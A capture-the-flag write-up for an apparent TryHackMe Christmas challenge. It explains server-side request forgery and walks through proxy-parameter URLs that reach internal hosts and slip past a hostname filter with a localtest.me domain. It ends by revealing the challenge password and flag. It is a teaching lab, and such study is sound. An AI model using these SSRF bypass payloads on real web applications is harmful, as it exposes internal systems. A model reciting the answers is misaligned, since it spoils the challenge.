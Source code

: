 # The Naughty or Nice List

## Video

{% embed url="https://www.youtube.com/watch?v=XgJ_6xdspKM" %}

## Resources

### Server-Side Request Forgery

Server-Side Request Forgery (SSRF) is a web app vulnerability that allows attackers to force the web application server to make requests to resources it normally wouldn't. For example, a web app may have the functionality to produce screenshots of other websites when a user supplies a URL. This is perfectly valid functionality, however, URLs can also be made for internal IP addresses (e.g. 192.168.1.1, 10.10.10.10, 127.0.0.1 etc.) as well as internal-only hostnames (e.g. localhost, WIN2019SERV.CORP). If a web developer is not careful, an attacker could provide the app with these and manage to screenshot internal resources, which often have less protections.

To counter this, user-provided URLs can be checked before they are requested, to ensure that malicious values are not being used. However, due to the complex nature of URLs themselves, there are often many things an attacker can do to bypass these checks.

Note that while the example of SSRF used in this task is effectively a Remote File Inclusion (RFI) vulnerability as well, not every SSRF is. Some SSRF vulnerabilities only trigger a DNS lookup, while others may not return any kind of response to the web app, but can still be used to "port scan" internal systems by measuring the time each request takes to complete. In other cases, SSRF may be used as a form of Denial of Service (DoS) since the attacker can continually request that the server download large files simultaneously (taking up memory, disk space, and network bandwidth).

## Challenge

### What is Santa's password?

![](<../.gitbook/assets/image (186).png>)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3DShell5

{% embed url="https://meyerweb.com/eric/tools/dencoder/" %}

![](<../.gitbook/assets/image (187).png>)

> http://10.10.129.132/?proxy=http://list.hohoho:8080/search.php?name=Shell5

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2F

![](<../.gitbook/assets/image (188).png>)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](<../.gitbook/assets/image (189).png>)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](<../.gitbook/assets/image (190).png>)

> http://10.10.129.132/?proxy=http%3A%2F%2Flocalhost

![](<../.gitbook/assets/image (191).png>)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho.localtest.me

![](<../.gitbook/assets/image (192).png>)

{% hint style="success" %}
> Be good for goodness sake!
{% endhint %}

### What is the challenge flag?

![](<../.gitbook/assets/image (185).png>)

> Login: Santa
>
> Password: Be good for goodness sake!

![](<../.gitbook/assets/image (193).png>)

{% hint style="success" %}
THM{EVERYONE\_GETS\_PRESENTS}
{% endhint %}
